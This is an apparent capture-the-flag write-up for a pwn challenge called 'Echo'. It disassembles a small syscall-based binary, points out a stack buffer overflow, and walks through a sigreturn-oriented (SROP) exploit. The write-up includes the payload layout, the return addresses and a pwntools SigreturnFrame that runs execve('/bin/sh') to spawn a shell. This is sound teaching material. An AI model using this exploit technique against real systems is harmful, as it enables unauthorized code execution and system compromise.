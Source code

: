 ## Echo 
We are given a small binary that echos what you write to it using syscalls

The echo function:
```asm 
<+0>:     push   rbp
<+1>:     mov    rbp,rsp
<+4>:     sub    rsp,0x300
<+11>:    mov    eax,0x0
<+16>:    mov    edi,0x0
<+21>:    lea    rsi,[rsp+0x180]
<+29>:    mov    edx,0x300
<+34>:    syscall
<+36>:    mov    rdx,rax
<+39>:    mov    eax,0x1
<+44>:    mov    edi,0x1
<+49>:    syscall
<+51>:    leave
<+52>:    ret
```
In addition, the author was kind enough to include a ```/bin/sh``` in the code segment
```
0x401035 <echo+53>:     "/bin/sh"
```
### Syscall convention
Quick reminder for x86_64 syscall calling convetions, parameters are passed via ```rdi, rsi, rdx, r10, r8, r9```
and ```rax``` is used to select the syscall.
For pwning the challenge, we will use the read (```rax = 0```) and sigreturn (```rax = 0xf```) syscalls.
### The vulnerability(ies)
1. There is a very obvious buffer overflow, the read syscall will overflow the stack
since we are reading ```rdx = 0x300``` bytes into ```rsi = rsp - 0x180``` resulting in 0x180 bytes of overflow.

2. Every binary with that uses ```syscall``` should raise your eyebrow, especially because of syscall 0x3b (```exceve```),
and the syscall 0xf ```sigreturn```.


### First attempt at pwning the challenge
If we can read 0x3b bytes, and at the same time load ```rdi``` with ```/bin/sh``` and return to a syscall -
we will get shell (since read return the number of bytes read, and will load ```rax = 0x3b```).
however after few attempts I couldn't find a straight forward way of doing it.


### Actually pwning this binary:
As I mentioned before we will be using srop to solve this challenge.
The solution splits into two phases:
### 1. Loading the srop frame into the memory:
On the first call of echo, we will prepare the stack by writing the following payload:
```0x188*b"A" + p64(elf.sym.echo) + p64(0x40101d) + bytes(frame)```
The first 0x188 bytes are there to overflow the return address with ```echo``` function address.
When the next call of ```echo``` will return, it'll return to ```0x40101d```.
```asm
0x000000000040101d <+29>:    mov    edx,0x300
0x0000000000401022 <+34>:    syscall
```
By the point we are at ```0x40101d``` we'll have ```frame``` at the top of the stack.


The idea is, that if we can have ```rax = 0xf``` and call syscall, while having an srop frame 
one the stack, we can basically do anything.
However, this phase only loads everything on the stack, we are still missing ```rax = 0xf```


### 2. Loading ```rax = 0xf```:
The reason we return to ```echo``` a second time, is just to write 15 bytes, and by that set ```rax = 0xf```


### 3. What's in the frame:
```python
frame = SigreturnFrame(kernel ="amd64")
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = 0x401022
frame.rdx = 0
```
The frame loads all the registers with the appropriate values, and returns to a syscall.

Run it all, and get shell :)
